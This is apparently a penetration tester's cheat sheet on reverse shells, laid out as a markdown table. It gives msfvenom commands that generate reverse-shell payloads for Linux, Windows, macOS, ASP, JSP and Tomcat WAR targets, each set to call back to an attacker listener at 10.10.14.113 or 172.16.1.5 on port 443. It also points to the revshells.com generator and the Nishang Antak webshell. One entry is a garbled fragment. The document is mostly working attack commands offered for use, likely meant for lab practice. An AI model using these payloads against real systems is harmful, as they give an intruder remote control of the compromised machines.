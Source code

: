 # Shells

***

https://www.revshells.com/

## Payloads

| Payload Description                               | MSFvenom Command                                                                                   |
| ------------------------------------------------- | -------------------------------------------------------------------------------------------------- |
| Linux-based Reverse Shell (Stageless Payload)     | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf`     |
| Windows-based Reverse Shell (Stageless Payload)   | `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe`       |
| MacOS-based Reverse Shell Payload                 | `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho`   |
| ASP Web Reverse Shell Payload                     | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` |
| JSP Web Reverse Shell Payload (Raw)               | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp`      |
| WAR Java/JSP Compatible Web Reverse Shell Payload | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war`      |

* Laudanumla:
* Antak: https://github.com/samratashok/nishang

## Tomcat War

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=443 -f war > shell.war
```
